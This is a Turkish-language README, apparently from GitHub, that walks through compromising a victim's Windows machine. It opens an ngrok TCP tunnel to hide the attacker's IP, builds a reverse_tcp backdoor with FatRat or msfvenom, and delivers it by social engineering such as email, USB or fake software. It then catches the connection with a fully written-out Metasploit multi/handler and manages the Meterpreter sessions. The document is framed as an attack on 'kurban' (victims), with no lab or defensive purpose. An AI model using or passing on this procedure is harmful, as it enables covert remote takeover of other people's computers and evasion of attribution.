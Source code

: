 ### **📋 Saldırı Akışı**
1.  **Tüneli Aç** → 2. **Backdoor'u Üret** → 3. **Kurbana Gönder** → 4. **Dinlemeye Başla** → 5. **Oturumu Yönet**

---

### **🚀 ADIM ADIM UYGULAMA**

#### **1. 🛰️ Tüneli Başlat & Açık Tut**
```bash
./ngrok tcp 4242
```
- **⚠️ ÖNEMLİ:** Bu terminali **ASLA KAPATMA!** 🚫
- Tünel açık kalsın diye **YENİ BIR TERMINAL AÇ** ve diğer adımlara oradan devam et. ➕

#### **2. 🦠 Backdoor Oluştur** 
- FatRat, msfvenom gibi araçlarla reverse_tcp payloadı ile backdoor oluştur.
**📍 Dikkat Edilecekler:**
- **LHOST:** Ngrok arayüzündeki **URL** (0.tcp.ngrok.io gibi)
- **LPORT:** Ngrok'un sana verdiği **PORT numarası**
- **🎯 Hedef:** `backdoor.exe` dosyası oluşacak

#### **3. 📮 Backdoor'u Kurban'a Ulaştır**
- **Sosyal Mühendislik** teknikleri kullan 📧
- E-posta, USB, sahte yazılım, vs. yöntemleri 🎣

#### **4. 👂 Dinleyiciyi Başlat** (Metasploit ile)
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
exploit -j -z
```

**⚙️ Ayar Detayları:**
- **LHOST:** `0.0.0.0` → Tüm ağ interfacelerini dinler
- **LPORT:** `4242` → **Ngrok'un YEREL'e yönlendirdiği port**
- **-j -z:** Arka planda çalıştırır

#### **5. 🎭 Oturumları Yönet**
```bash
sessions -l          # 📋 Aktif oturumları listele
sessions -i 1        # 🔌 1 numaralı oturuma bağlan
```

---

### **🎯 KRİTİK HATIRLATMALAR**

| Bileşen | Ngrok Tarafı | Sizin Tarafınız |
|---------|-------------|-----------------|
| **LHOST** | `0.tcp.ngrok.io` | `0.0.0.0` |
| **LPORT** | `12345` (rastgele) | `4242` (sabit) |

**✅ DOĞRU Akış:**
Kurban → **Ngrok URL:Port** → Ngrok Servisi → **Sizin 4242 Portunuz** → Meterpreter Session! 🏁

**💡 Altın Kural:** Ngrok terminali açık kaldığı sürece bağlantı çalışır! 🔗

---

Bu senaryo ile **gerçek IP'nizi gizleyerek** güvenli backdoor bağlantısı kurabilirsiniz! 😎🛡️